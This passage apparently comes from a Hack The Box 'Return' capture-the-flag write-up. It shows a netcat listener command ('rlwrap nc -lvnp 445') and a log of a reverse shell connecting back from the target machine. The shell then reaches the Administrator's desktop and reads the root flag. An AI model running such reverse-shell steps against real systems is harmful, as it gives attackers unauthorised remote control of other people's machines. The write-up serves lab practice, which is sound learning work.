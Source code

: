 Before running I made sure I was started my netcat listener so .

Lets have a Administrator flag now →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Return]
└─$ rlwrap nc -lvnp 445
listening on [any] 445 ...
connect to [10.10.16.29] from (UNKNOWN) [10.10.11.108] 62385
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd C:\Users\Administrator
cd C:\Users\Administrator

C:\Users\Administrator>tree /f /a
tree /f /a
Folder PATH listing
Volume serial number is 3A0C-428E
C:.
+---3D Objects
+---Contacts
+---Desktop
|       root.txt
|       
+---Documents
+---Downloads
+---Favorites
|   |   Bing.url
|   |   
|   \---Links
+---Links
|       Desktop.lnk
|       Downloads.lnk
|       
+---Music
+---Pictures
+---Saved Games
+---Searches
\---Videos

C:\Users\Administrator>type Desktop\root.txt
type Desktop\root.txt
5f193360338570c2550071c9f207183d

C:\Users\Administrator>
```
{: .nolineno}

I am Administrator Now !!